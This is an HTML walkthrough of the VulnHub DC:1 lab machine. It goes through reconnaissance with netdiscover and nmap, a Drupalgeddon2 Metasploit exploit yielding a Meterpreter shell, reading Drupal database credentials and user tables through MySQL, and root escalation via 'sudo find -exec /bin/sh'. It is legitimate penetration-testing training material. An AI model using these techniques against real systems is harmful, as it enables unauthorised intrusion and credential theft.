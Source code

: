 <h1>DC:1 VulnHub Walkthrough</h1>

<p>
This is a walkthrough of the DC:1 virtual machine from VulnHub. It’s a beginner-friendly boot-to-root machine designed to test your penetration testing skills, especially in web exploitation. The target uses a vulnerable version of Drupal CMS, which is the main attack vector.
</p>

<h2>🔍 Initial Reconnaissance</h2>

<h3>Network Discovery</h3>
<p>We start by identifying the IP address of the target machine using <code>netdiscover</code>.</p>
<pre>
netdiscover -r 192.168.0.0/24
</pre>
<![Alt Screenshot](images/1netdiscover.png)>

<h3>Port Scanning with Nmap</h3>
<p>Next, we scan the target using <code>nmap</code> to find open ports and services.</p>
<pre>
nmap -sS -sV -T4 192.168.0.102
</pre>
<img src="nmap.png" alt="nmap scan">

<h2>🌐 Web Application Enumeration</h2>

<h3>Drupal Site Detected</h3>
<p>Browsing to the IP address reveals a Drupal website. This suggests a possible exploit path.</p>
<img src="drupal-site.png" alt="Drupal homepage">

<h3>Recovering Password</h3>
<p>Drupal has a password reset feature which may expose usernames or other useful information.</p>
<img src="recover-password.png" alt="Drupal password reset">

<h2>🛠 Exploitation</h2>

<h3>Using Searchsploit to Find Exploits</h3>
<p>We search for known vulnerabilities in Drupal using Searchsploit. A remote code execution (RCE) vulnerability is found.</p>
<pre>
searchsploit drupal 7
</pre>
<img src="searchsploit.png" alt="searchsploit for Drupal 7">

<h3>Launching Exploit via Metasploit</h3>
<p>We use Metasploit's module for Drupalgeddon2 to exploit the vulnerability and gain a reverse shell.</p>
<img src="metasploit.png" alt="Metasploit setup">

<h3>Setting the RHOST Parameter</h3>
<pre>
set RHOST 192.168.0.102
run
</pre>
<img src="set-RHOST.png" alt="Set RHOST">

<h3>Getting a Meterpreter Session</h3>
<p>Successful exploitation results in a Meterpreter session.</p>
<img src="meterpreter.png" alt="Meterpreter session">

<h3>Post Exploitation - User Info</h3>
<p>Check the user context with <code>getuid</code>.</p>
<img src="getuid.png" alt="getuid command">

<h2>🧾 Flag Collection</h2>

<h3>Flag 1</h3>
<p>We list files in the home directory and retrieve the first flag.</p>
<pre>
ls
cat flag1.txt
</pre>
<img src="ls-cat-flag1.png" alt="flag1 retrieval">

<h3>Finding Flag 4</h3>
<p>Using the <code>find</code> command to locate additional flags.</p>
<pre>
find / -name flag4.txt 2>/dev/null
</pre>
<img src="find-flag4.png" alt="find flag4">

<h3>Viewing Flag 4</h3>
<pre>
cat /var/www/html/sites/default/files/flag4.txt
</pre>
<img src="cat-flag4.png" alt="cat flag4">

<h2>🧩 Drupal Database Analysis</h2>

<h3>Drupal Configuration</h3>
<p>We search for Drupal database credentials in settings.php or other configuration files.</p>
<img src="find-drupal-db.png" alt="Drupal database credentials">

<h3>Accessing MySQL</h3>
<p>We log into MySQL using the credentials found.</p>
<pre>
mysql -u drupal -p
</pre>
<img src="mysql.png" alt="MySQL login">

<h3>Enumerating Users Table</h3>
<p>We look at the <code>users</code> table to see account information.</p>
<pre>
SELECT * FROM users;
</pre>
<img src="users-table.png" alt="Drupal users table">

<h3>Inspecting Node Table</h3>
<p>View the content nodes stored in the Drupal site.</p>
<pre>
SELECT * FROM node;
</pre>
<img src="node-table.png" alt="Drupal node table">

<h2>🔓 Privilege Escalation</h2>

<h3>Find Has Root Permissions</h3>
<p>Running <code>sudo -l</code> reveals that the <code>find</code> command can be executed as root.</p>
<pre>
sudo -l
</pre>
<img src="find-root-perms.png" alt="find command as root">

<h3>Spawning a Root Shell</h3>
<p>We use a known privilege escalation trick with <code>find</code> to get root access.</p>
<pre>
sudo find . -exec /bin/sh \; -quit
</pre>
<img src="find-root-shell.png" alt="find root shell">

<h3>Final Flag</h3>
<p>After getting root access, we find and read the final flag.</p>
<pre>
cat /root/flag.txt
</pre>
<img src="cat-final-flag.png" alt="final flag">
